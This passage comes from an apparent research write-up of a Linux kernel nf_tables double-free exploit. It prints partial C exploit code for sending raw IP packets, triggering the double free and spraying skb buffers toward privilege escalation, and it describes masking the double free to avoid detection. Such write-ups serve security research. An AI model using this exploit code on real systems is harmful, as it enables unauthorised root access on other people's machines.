 ```c

	sendto_noconn(&dst_addr, intermed_buf, ip_buflen, sendto_ipv4_ip_sockfd);
}
```

Copy

Codeblock 5.1.2.2.1: The `send_ipv4_ip_hdr()` exploit function written in C, which abstracts away checksumming and socket code, when trying to send a raw IP packet.

```c
static char intermed_buf[1 << 19];

static void send_ipv4_ip_hdr_chr(size_t dfsize, struct ip *ip_header, char chr)
{
	memset(intermed_buf, chr, dfsize);
	send_ipv4_ip_hdr(intermed_buf, dfsize, ip_header);
}

static void trigger_double_free_hdr(size_t dfsize, struct ip *ip_header)
{
	printf("[*] sending double free buffer packet...\n");
	send_ipv4_ip_hdr_chr(dfsize, ip_header, '\x41');
}

static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (skb spray)

    // allocate and free 1 skb from freelist
	df_ip_header.ip_id = 0x1337;
	df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
	df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);  // wait for other fragments. 8 >> 3 to make it wait or so?
	trigger_double_free_hdr(32768 + 8, &df_ip_header);

    // ... (rest of the exploit)
}
```

Copy

Codeblock 5.1.2.2.2: Partial code for the exploit written in C, which sends the raw IP packet and triggers the nf\_tables rule we set up earlier.

##### 5.1.2.3. Masking the double-free with skb's

In order to prevent detection of the double-free and to improve stability of the exploit, we spray-free the UDP packets we allocated earlier.

```c
static char intermed_buf[1 << 19]; // simply pre-allocate intermediate buffers

static int sendto_ipv4_udp_server_sockfd;

void recv_ipv4_udp(int content_len)
{
    PRINTF_VERBOSE("[*] doing udp recv...\n");
    recv(sendto_ipv4_udp_server_sockfd, intermed_buf, content_len, 0);

	PRINTF_VERBOSE("[*] udp packet preview: %02hhx\n", intermed_buf[0]);
}
```
